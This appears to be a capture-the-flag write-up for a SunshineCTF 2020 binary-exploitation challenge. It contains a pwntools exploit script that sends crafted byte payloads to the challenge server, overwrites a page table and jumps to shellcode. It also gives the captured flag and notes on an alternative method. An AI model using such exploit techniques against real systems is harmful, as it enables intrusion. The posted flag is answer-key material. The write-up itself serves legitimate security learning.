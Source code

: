### Code

```python  
from pwn import *  
import time

context.log_level = 'error'

p = remote('chal.2020.sunshinectf.org',10004)

exploit1 = "ABCD" + 'a'*10 + '\x4c\x01\x00\x00'+'\x0e\x01\x20\x00' +
'\xea\xff' + '\x00'*8 + '\x91\x01\x00\x00' + '\xf8\x2f\xf9\x02\xf5\xf9\xff'  
exploit = 'b'*64 + '\x8f\x01'

#get official bytes into the stack  
for x in range(len(exploit1)-14):  
   print x  
   time.sleep(.1)  
   p.sendline(exploit1[:len(exploit1)-x])  
   p.sendlineafter('ABCD',exploit)  
   time.sleep(.1)

exploit = '\xff'*64 + '\x80\x01' #start the Ropish chain  
p.sendline(exploit1[:4])  
p.sendlineafter('ABCD',exploit)

time.sleep(.1)  
p.send('\x00') #Set Zero flag

time.sleep(.1)  
p.sendline('\x11') #overwrite the page table  
time.sleep(.1)

exploit ='\xff'*64 + '\xf2\xfa' # jump to shellcode  
p.sendline(exploit)  
p.readuntil('x/: Login success!\n')  
time.sleep(1)  
flag = p.readline()  
p.close()  
print "Enjoy your flag:",flag  
```

### Flag

`sun{wh47_4_ju1cy_4rch1t3c7ur3_4_pwn1ng!}`

### Notes and Second method

While the above code is better optimized, in my original exploit I failed to
realize that the stack was located at page 0x11 and overwrote it with 0xfa,
meaning I had to go through a bunch more work to actually write shellcode to
the stack, best part is I got really confused when my stack instantly became
all 0's after the overwrite and never thought a second about it.

